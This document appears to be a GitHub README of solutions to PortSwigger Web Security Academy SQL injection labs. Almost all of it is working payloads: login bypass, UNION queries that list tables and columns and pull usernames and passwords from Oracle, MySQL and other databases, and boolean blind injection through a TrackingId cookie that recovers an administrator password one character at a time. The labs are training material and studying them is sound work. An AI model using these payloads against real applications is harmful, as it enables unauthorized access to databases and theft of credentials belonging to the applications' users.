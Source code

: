 # SQL injection


 * [sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


### Lab1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

>**Q. SELECT * FROM products WHERE category = 'Gifts' AND released = 1 **

```sh
'+OR+1=1--
```

### Lab2: SQL injection vulnerability allowing login bypass
>**Q. To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. **

```sh
administrator'--
```
### Lab3: SQL injection attack, querying the database type and version on Oracle

```sh
'+UNION+SELECT+'abc','def'+FROM+dual--
```
```sh
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

### Lab4: SQL injection attack, querying the database type and version on MySQL and Microsoft

  ```sh
  order by 2#
  ```

  ```sh
  union select 1,2#
  ```

  ```sh
  union select 1,@@version#
  ```
### Lab5: SQL injection attack, listing the database contents on non-Oracle databases

  ```sh
  order by 2--
  ```
  ```sh
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
  ```
  ```sh
'+UNION+SELECT+column_name,table_name+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
  ```
  ```sh
'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
  ```
### Lab6: SQL injection attack, listing the database contents on Oracle
```sh
order by 2--
```
```sh
'+UNION+SELECT+null,null+FROM+dual--
```
```sh
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```
```sh
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
```
```sh
'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
```
### Lab7: SQL injection UNION attack, determining the number of columns returned by the query
```sh
order by 3--
```
```sh
'union select null,null,null--
```
### Lab8: SQL injection UNION attack, finding a column containing text
```sh
'+UNION+SELECT+NULL,'a',NULL--
```
```sh
'+UNION+SELECT+NULL,'273Yf9bW',NULL--
```
### Lab9: SQL injection UNION attack, retrieving data from other tables
```sh
'+UNION+SELECT+null,null--
```
```sh
'+UNION+SELECT+null,table_name+from+information_schema.tables--
```
```sh
'+UNION+SELECT+column_name,table_name+from+information_schema.columns+where+table_name='users'--
```
```sh
'+UNION+SELECT+user,password+from+user--
```
### Lab10: SQL injection UNION attack, retrieving multiple values in a single column
```sh
'+UNION+SELECT+NULL,'a'--
```
```sh
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```
Or

```sh
'+UNION+SELECT+NULL,username||password+FROM+users--
```

### Lab11: Blind SQL injection with conditional responses
```sh
TrackingId=xyz' AND '1'='1
```
```sh
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
```
```sh
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```
```sh
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```
```sh    
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

















